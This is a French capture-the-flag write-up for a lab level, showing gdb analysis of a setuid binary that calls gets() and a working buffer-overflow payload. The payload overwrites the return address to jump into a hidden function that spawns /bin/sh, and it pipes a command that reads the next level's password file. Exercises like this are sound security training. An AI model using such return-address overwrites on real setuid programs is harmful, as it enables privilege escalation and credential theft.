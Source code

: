 ## Comportement
- J'ai des droits `level1` que je peux verifier en tapant `whoami`
- Un binaire est present avec des droits differents : `-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1*`
En exécutant le binaire (`./level1`), on observe:
- qu'il attend un input de notre part.
- qu'il exit juste apres notre input.
- qu'il segfault `Segmentation fault (core dumped)` si l'input est trop long.

→ Peut-être un segfault à exploiter ?


## Analyse
En analysant le binaire (`gdb ./level1`) on observe:
- La fonction appelle "gets" qui n'est pas securisé en cas de buffer overrun (voir `man gets`).
  ```shell
  (gdb) disas main
  ...
  0x08048490 <+16>:	call   0x8048340 <gets@plt>
  ...
  ```
- Il existe une fonction `run()` qui n'est pas appelé dans `main()` : 
  ```shell
  (gdb) i functions
  ...
  0x08048444  run
  0x08048480  main
  ...
  ```
- Dans la fonction `run()` il y a un appel systeme : 
  ```shell
  (gdb) disas main
  ...
  0x08048472 <+46>:	movl   $0x8048584,(%esp) # argument envoye a la fonction system() en dessous
  0x08048479 <+53>:	call   0x8048360 <system@plt>
  ...
  ```
- Il suffit d'examiner l'adresse du parametre envoye a la fonction `system()` 
(situe une ligne au dessus) pour constater qu'on execute `/bin/sh`. 
Ce qui est une technique courante pour lancer un shell interactif. 
  ```shell
  (gdb) x/s 0x8048584
  0x8048584:	 "/bin/sh"
  ```

## Résolution
- On va overflow la valeur de la commande `ret` avec l'adresse de la fonction `run()` pour que quand la 
commande `ret()` sera execute, c'est `run()` qui sera appelee et donc notre appel systeme sera execute
ouvrant ainsi un shell interactif.
- Il faut trouver l'offset de l'`eip` (le pointeur du jeu d'instruction en cours) pour savoir de 
combien il faut overflow le buffer. Dans `main()` on a vu que le buffer est de 80 bytes. 
(`0x08048486 <+6>:		sub    esp,0x50`). On obtient bien un segfault : 
```shell
$ python -c 'print "A" * 80' | ./level1
Segmentation fault (core dumped)
```
- Maintenant il faut gerer le padding, c'est a dire soustraire suffisament de bytes pour placer l'adresse 
de la fonction `run()` (`0x08048444`) que l'on veut inserer. Elle prend 4 bytes. On obtient encore un 
segfault, cette fois ce n'est pas normal car `run()` aurait du etre appele. 
```shell
$ python -c 'print "A" * 76 + "\x08\x04\x84\x44"' | ./level1
Segmentation fault (core dumped)
```
- En regardant bien la stack, on voit que l'adresse est inscrite en little endian, il faut donc l'inverser.
La fonction `run()` ets bien appele ! On le voit grace au print "Good... Wait what?" mais ou est le shell ? 
```shell
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
- Le shell exit car son process parent exit. Du coup il faut modifier le code pour fait un cat du mot
de passe avant que le shell ne se ferme. Cela donne : 
```shell
$ (python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; echo "cat /home/user/level2/.pass") | ./level1
Good... Wait what?
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Segmentation fault (core dumped)
```

Il ne reste plus qu'à :
- et passer au level1 (`su level1`) en renseignant le password obtenu plus haut.


